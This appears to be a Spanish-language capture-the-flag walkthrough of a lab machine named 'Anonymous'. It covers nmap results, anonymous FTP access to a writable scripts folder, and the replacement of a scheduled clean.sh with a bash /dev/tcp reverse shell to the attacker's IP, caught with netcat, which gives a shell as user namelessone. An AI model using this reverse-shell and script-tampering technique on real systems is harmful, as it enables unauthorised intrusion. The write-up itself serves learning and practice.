 ### nmap
```python
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.157.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2024-01-20T21:35:30+00:00
|_clock-skew: mean: -28s, deviation: 0s, median: -28s
| smb2-time: 
|   date: 2024-01-20T21:35:30
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```
### Ports: 21/ftp - 22/ssh - 139/smb - 445/smb 

### Enumeracion del puerto 21/ftp
```python
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.157.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
```
este puerto tiene una configuracion de credenciales por defecto con el usuario anonymous y tambien podemos ver que tenemos permisos writable (escritura)

### ftp 
nos conectamos al puerto ftp con las credenciales de anonymous(default) en este caso tenemos una carpeta llamada scripts la cual contiene 3 archivos, usando mget * podemos descargar todos los archivos para poder verlos mejor en local
![[Pasted image 20240120174450.png]]

el archivo nmap.txt coresponde a nuestro archivo de escaneo y tenemos los 3 archivos que hemos conseguido en la maquina
![[Pasted image 20240120174740.png]]

el archivo to_do.txt es un mensaje que nos dicen que han desabilitado el login de anonymous y que esto no es una practica segura. el archivo clean.sh es un script en bash que realiza una limpieza en el directorio /tmp. debido a que tenemos permisos de escritura podriamos editar este script para optener una reverse shell
![[Pasted image 20240120175113.png]]

el archivo removed.files.log solo es una captura de la ejecusion del script sin embargo dice que no se encontro nungun archivo para eliminar
![[Pasted image 20240120175636.png]]

### Reverse shell
lo primero que vamos hacer sera editar el script.sh para agregar una reverse shell aregando el siguiente comando `bash -c "bash -i >& /dev/tcp/10.9.157.7/9001 0>&1"` una ves hecho esto vamos al servicio ftp y vamos a subir el nuevo script para ello nos posicionamos en la misma ruta donde esta el script anterior y solo hacemos un `put clean.sh` ahora ya tenemos el nuevo script en el sistema sono nos falta ponernos a la escucha con `nc lvnp 9001` este es el puerto que hemos especificado en la reverse shell y ya solo nos queda esperar un par de minutos para conseguir una coneccion
![[Pasted image 20240120181957.png]]

### intrusión
hemos ganado intrusión como el usuario namelessone
